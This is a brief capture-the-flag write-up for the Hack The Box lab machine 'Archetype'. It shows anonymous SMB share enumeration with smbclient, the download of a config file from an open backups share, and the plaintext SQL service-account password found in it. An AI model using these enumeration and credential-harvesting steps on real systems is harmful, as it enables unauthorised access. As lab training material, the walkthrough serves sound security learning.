 # Archetype Write-up

<img src="https://labs.hackthebox.com/storage/avatars/b39473da3f36b9b5718d6c76eb573a10.png" width="200" height="200">

`smbclient -N -L \\\\10.129.230.97`

     
    
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            backups         Disk      
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
    tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.129.230.97 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

`smbclient -N \\\\10.129.230.97\\backups`
                                                                                                                                                                                                                                                
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Mon Jan 20 07:20:57 2020
      ..                                  D        0  Mon Jan 20 07:20:57 2020
      prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
    
                    5056511 blocks of size 4096. 2617662 blocks available
    smb: \> get prod.dtsConfig
    getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    smb: \> exit

`cat prod.dtsConfig `

    <DTSConfiguration>
        <DTSConfigurationHeading>
            <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
        </DTSConfigurationHeading>
        <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
            <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
        </Configuration>
    </DTSConfiguration>     

